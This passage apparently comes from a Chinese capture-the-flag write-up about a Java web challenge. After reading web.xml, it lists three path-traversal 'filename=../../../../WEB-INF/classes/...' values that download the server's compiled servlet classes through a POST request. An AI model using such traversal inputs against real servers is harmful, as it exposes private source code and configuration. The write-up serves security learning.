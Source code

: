 ![读取web.xml文件](./filejava/读取web.xml文件.png)

这里存在三个servlet，依次构建相应的地址进行下载，但是这里的下载是post请求方式下载的（脑洞有点大）。

```python
filename=../../../../WEB-INF/classes/cn/abc/servlet/DownloadServlet.class
filename=../../../../WEB-INF/classes/cn/abc/servlet/ListFileServlet.class
filename=../../../../WEB-INF/classes/cn/abc/servlet/UploadServlet.class
```

![构建下载界面](./filejava/构建下载界面.png)

